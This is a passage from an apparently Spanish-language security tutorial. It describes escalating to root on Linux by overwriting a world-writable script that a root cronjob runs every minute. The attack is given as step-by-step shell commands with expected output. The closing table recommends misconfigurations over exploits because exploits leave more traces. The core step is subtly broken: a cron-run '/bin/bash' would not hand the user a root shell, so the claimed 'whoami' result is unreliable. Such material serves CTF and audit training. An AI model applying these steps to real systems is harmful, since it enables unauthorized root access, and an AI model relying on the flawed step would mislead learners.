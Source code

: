 - Accediste como `usuario: gus`
- Usas `linpeas.sh` o `pspy64` y descubres que se ejecuta `/home/gus/backup.sh` cada minuto
- El script tiene permisos de escritura y se ejecuta como root

---

#### 🔹 Paso 1: Comprobar permisos

```bash
ls -l /home/gus/backup.sh
# -rwxrwxrwx 1 root root 64 Jul 26 10:00 backup.sh
```

---

#### 🔹 Paso 2: Inyectar código

```bash
echo '#!/bin/bash' > /home/gus/backup.sh
echo '/bin/bash' >> /home/gus/backup.sh
chmod +x /home/gus/backup.sh
```

---

#### 🔹 Paso 3: Esperar la ejecución automática

Cuando se ejecute el cronjob, tendrás acceso como `root`:

```bash
whoami
# root
```

¡Privilegios escalados exitosamente! ✅

---

### 🧠 Conclusión

| Estrategia                                             | Clave de éxito               |
| ------------------------------------------------------ | ---------------------------- |
| Analiza siempre con herramientas                       | PEAS, pspy, AccessChk        |
| Revisa permisos, cronjobs, servicios                   | Ahí se esconden las joyas    |
| Busca contraseñas y backups                            | Muchas veces son descuidados |
| Usa exploits solo cuando no hay configuración insegura | Porque dejan más rastros     |

---

[🔼](#índice)

---

## **982. Creación y delegación de privilegios en sistemas operativos**
